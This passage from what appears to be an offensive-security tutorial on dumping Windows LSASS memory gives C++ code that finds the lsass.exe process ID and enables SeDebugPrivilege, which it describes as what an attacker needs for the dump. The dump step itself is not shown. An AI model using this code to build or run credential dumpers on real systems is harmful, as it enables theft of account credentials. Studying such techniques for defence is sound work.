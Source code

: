 First of all, we find `lsass.exe` process, via function like this:     

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```

It is necessary to have `SeDebugPrivilege` privilege to dump `LSASS` as an attacker:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```
